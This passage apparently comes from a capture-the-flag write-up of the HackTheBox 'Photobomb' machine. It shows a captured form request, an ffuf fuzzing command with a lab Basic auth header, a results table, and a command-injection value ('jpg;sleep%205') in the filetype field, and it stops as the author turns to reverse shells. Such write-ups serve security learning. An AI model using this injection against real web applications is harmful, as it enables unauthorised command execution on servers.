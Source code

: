 ```
Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://photobomb.htb/printer

Accept-Encoding: gzip, deflate

Accept-Language: es,en-US;q=0.9,en;q=0.8

Connection: close



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

As you can see it has three parameters photo,filetype, and dimensions. I tried getting an LFI with the photo parameters but It didn't work so my next target was the filetype parameter. I fuzzed the values of the parameter and got these results.


```shell
ffuf -w /home/dasor/wordlist/tmp.txt -u http://photobomb.htb/printer -v -X POST -d photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&amp;filetype=FUZZ&amp;dimensions=3000x2000 -H Content-Type: application/x-www-form-urlencoded -H Authorization: Basic cEgwdDA6YjBNYiE=
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | jpg | http://photobomb.htb/printer |  | 15 | 200 | 175902 | 553 | 415 | image/jpeg |  |
  | png | http://photobomb.htb/printer |  | 24 | 200 | 3495633 | 14863 | 13790 | image/png |  |
  | pngphp | http://photobomb.htb/printer |  | 631 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | jpghtml | http://photobomb.htb/printer |  | 682 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | jpgjpg | http://photobomb.htb/printer |  | 1174 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | jpgxml | http://photobomb.htb/printer |  | 2080 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | jpg[ | http://photobomb.htb/printer |  | 2081 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | jpg] | http://photobomb.htb/printer |  | 2082 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |
  | png,bmp | http://photobomb.htb/printer |  | 2232 | 200 | 175902 | 553 | 415 | text/html;charset=utf-8 |  |

It seems that everything that you write behind either png or jpg is valid so I tested with `jpg;sleep%205` and it worked! (by the way %20 is just a space URL encoded). This is a significant opportunity to get a reverse shell so I started testing some out.
